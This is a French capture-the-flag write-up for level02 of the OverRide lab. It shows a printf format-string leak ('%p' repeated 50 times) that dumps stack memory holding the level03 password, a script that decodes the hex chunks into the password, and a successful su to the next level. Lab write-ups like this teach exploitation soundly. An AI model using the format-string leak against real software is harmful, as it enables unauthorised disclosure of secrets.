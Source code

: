 En reconstruisant le code on voit que l'on peux afficher le mot de passe du fichier /home/users/level03/.pass car il est stocker en memoire dans une variables du programme.

on va afficher la memoire en passant par le format string de printf

```bash
level02@OverRide:~$ ./level02 < <(python -c 'print "%p " *50')
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe460 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe658 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

Cette portion de la memoire à l'air interressante car elle fait 0x29 octets et dans le code on nous dis que ce qu'il y a dans le fichier fait 0x29 octets.

Chaque portion fait 8 octets car on est sur un programme en 64 bits comme le montre les registres r(ax-di-si-dx-cx-..)

On essaie de déchiffrer cela en Hexadecimal et on inverse le tout.

Le script python le déchiffre et nous sort

```bash
❯ Ressources/decode_hash.py
756e505234376848 unPR47hH
45414a3561733951 EAJ5as9Q
377a7143574e6758 7zqCWNgX
354a35686e475873 5J5hnGXs
48336750664b394d H3gPfK9M
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

On essaie
```bash
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ ls
level03
level03@OverRide:~$
``

Validé ✅